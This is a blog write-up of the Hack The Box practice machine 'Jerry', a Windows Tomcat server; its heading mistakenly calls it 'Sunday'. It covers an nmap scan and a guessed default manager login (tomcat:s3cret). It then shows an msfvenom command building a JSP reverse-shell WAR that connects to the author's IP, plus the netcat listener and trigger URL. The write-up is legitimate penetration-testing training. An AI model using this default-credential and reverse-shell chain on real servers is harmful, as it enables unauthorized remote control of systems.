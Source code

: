 ```yaml
---
layout: post
title: "HackTheBox: Jerry write-up"
date: 2018-10-09
excerpt: "My first windows box! The way to access the system was cool, but a bit simple... User and root? Looks like they are the same here"
tags: [Pentesting, Hack The Box, Reverse Shell, Windows, Default Password]
comments: true
feature: https://media.wired.com/photos/5926d71eaf95806129f50cc9/master/pass/Microsoft10.jpg
---
```


# Hack The Box: Sunday machine write-up

This was my first attempt on a Windows machine and so I chose an easy machine, maybe too easy. It runs with ip 10.10.10.95.

### Enumeration

We start by enumerating open ports to discover the services running in the machine. I ran the following:

*Result of first nmap scan*

```sh
# Nmap 7.01 scan initiated Mon Oct  8 10:22:18 2018 as: nmap -sV -sC -Pn -oA nmap/initial 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.036s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  8 10:22:33 2018 -- 1 IP address (1 host up) scanned in 14.38 seconds
```

I needed to use the ``-Pn`` option to treat the host as online, otherwise nmap wouldn't discover any ports.

So the only port open is 8080 for a web server. Let's check it out!

*Fresh installation page of apache tomcat*

![Img](/assets/posts_details/Jerry/images/fresh.png)

I knew for one of the previous boxes I had done that Tomcat has an online manager accesible, so I tried with ``/manager`` and was prompted for a username and password. With a bit of luck I guessed it right: ``tomcat:s3cret``.

Then we get in a control panel where a .WAR file can be uploaded. Looks like we found our entry point!

*Control panel of apache tomcat*

![Img](/assets/posts_details/Jerry/images/control.png)

*Option to upload a .WAR file*

![Img](/assets/posts_details/Jerry/images/war.png)

### Exploit

I used msfvenom to create a java reverse shell pointing to my IP address. Then I decompressed it to know what path to request in order to get my shell.

```console
parallels@ubuntu:~/Desktop/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.13.200 LPORT=1234 -f war > reverse.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes

parallels@ubuntu:~/Desktop/jerry$ jar -xvf reverse.war
   created: WEB-INF/
  inflated: WEB-INF/web.xml
  inflated: lmfuyxnlrwrnfg.jsp
```

With that I know that I have to make the following request to get the shell:

```
http://10.10.10.95:8080/reverse/lmfuyxnlrwrnfg.jsp
```

Before making the request, I used netcat to listen on the specified port, 1234. I used ``nc -lnvp 1234``. Once done, I visit the page and get a blank one but once I check I've got a reverse shell!

*Reverse shell connection*

![Img](/assets/posts_details/Jerry/images/shell.png)

### Getting user and root

This was the most straightforward and easy machine I've done to get root and user. I started doing some manual enumeration when I found a path in the admin account that contained a file called ``2 for the price of 1.txt``. Yep, it contained both hashes...

*Getting both hashes*

![Img](/assets/posts_details/Jerry/images/hashes.png)

*Diego Bernal Adelantado*
